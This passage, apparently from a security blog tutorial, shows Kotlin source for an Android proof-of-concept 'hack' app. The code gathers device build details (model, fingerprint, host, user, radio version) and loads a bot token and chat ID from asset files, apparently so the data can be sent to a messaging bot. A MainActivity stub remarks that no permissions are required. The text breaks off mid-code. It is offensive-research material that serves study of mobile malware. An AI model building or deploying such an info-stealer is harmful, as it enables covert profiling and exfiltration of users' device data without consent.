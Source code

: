 ```kotlin
                first.uppercaseChar().toString() + s.substring(1)
            }
        }

        val manufacturer = Build.MANUFACTURER
        val model = Build.MODEL
        val device = Build.DEVICE
        val deviceID = Build.ID
        val brand = Build.BRAND
        val hardware = Build.HARDWARE
        val hostInfo = Build.HOST
        val userInfo = Build.USER
        val board = Build.BOARD
        val display = Build.DISPLAY
        val fingerprint = Build.FINGERPRINT
        val devT = Build.TYPE
        val radio = Build.getRadioVersion()

        val info = "Hardware: ${capitalize(hardware)}\n" +
                "Manufacturer: ${capitalize(manufacturer)}\n" +
                "Model: ${capitalize(model)}\n" +
                "Device: ${capitalize(device)}\n" +
                "ID: ${capitalize(deviceID)}\n" +
                "Brand: ${capitalize(brand)}\n" +
                "Host: ${capitalize(hostInfo)}\n" +
                "User: ${capitalize(userInfo)}\n" +
                "Board: ${capitalize(board)}\n" +
                "Display: ${capitalize(display)}\n" +
                "Fingerprint: ${capitalize(fingerprint)}\n" +
                "Build TYPE: ${capitalize(devT)}\n" +
                "RADIO: ${capitalize(radio)}"

        return info
    }

    // fetch token and chatId from assets (saved in files)
    private fun getTokenFromAssets(): String {
        return context.assets.open("token.txt").bufferedReader().readText().trim()
    }

    private fun getChatIdFromAssets(): String {
        return context.assets.open("id.txt").bufferedReader().readText().trim()
    }
}
```

And the MainActivity logic is pretty simple (no need to request permissions in this case):    

```kotlin
package cocomelonc.hack

import android.os.Bundle
import androidx.activity.ComponentActivity
import android.widget.Button
import android.widget.Toast

class HackMainActivity : ComponentActivity() {
    private lateinit var meowButton: Button
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)
        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            Toast.makeText(
```